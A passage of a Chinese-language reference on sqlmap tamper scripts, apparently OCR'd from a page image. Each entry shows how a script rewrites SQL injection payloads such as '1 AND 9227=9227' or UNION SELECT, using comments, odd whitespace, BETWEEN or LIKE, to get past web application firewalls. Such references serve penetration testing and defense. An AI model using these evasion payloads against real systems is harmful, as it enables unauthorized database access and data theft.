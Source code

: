 ``` bash
('1 AND 2>1--') '1 /*!30874AND 2>1*/--' 
```

* space2mysqlblank.py

　　作用：空格替换其它空白符号(mysql)

　　Example: 
``` bash
　Input: SELECT id FROM users 

　Output: SELECT%0Bid%0BFROM%A0users 
```
* between.py

　　作用：用between替换大于号（>）

　　Example:
``` bash
 ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--' 
```

* space2mysqldash.py

　　作用：替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’）

注：之前有个mssql的 这个是mysql的

　　Example: 
``` bash
('1 AND 9227=9227') '1--%0AAND--%0A9227=9227'
```


* multiplespaces.py

　　作用：围绕SQL关键字添加多个空格

　　Example:
``` bash
 ('1 UNION SELECT foobar') '1 UNION SELECT foobar' 
```



* ：space2plus.py

　　作用：用+替换空格

　　Example:
``` bash
 ('SELECT id FROM users') 'SELECT+id+FROM+users' 
 ```

* bluecoat.py

　　作用：代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like

　　Example: 
``` bash
('SELECT id FROM users where id = 1') 'SELECT%09id FROM users where id LIKE 1' 
```
* nonrecursivereplacement.py
